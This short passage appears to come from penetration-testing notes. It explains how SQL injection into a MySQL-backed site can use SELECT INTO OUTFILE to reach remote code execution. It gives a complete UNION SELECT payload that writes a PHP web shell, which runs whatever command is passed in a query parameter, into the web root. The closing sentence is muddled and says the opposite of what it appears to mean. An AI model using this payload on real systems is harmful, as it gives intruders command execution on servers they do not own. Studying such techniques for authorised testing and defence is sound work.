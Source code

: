

Although the various MySQL database variants don't offer a single function to escalate to RCE, we can abuse the `SELECT INTO_OUTFILE` statement to write files on the web server.

For this attack to work, the file location must be writable to the OS user running the database software.

This command will write a php web shell to the web root/tmp folder:

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

we may receive a type error which will now effect our writing of the file.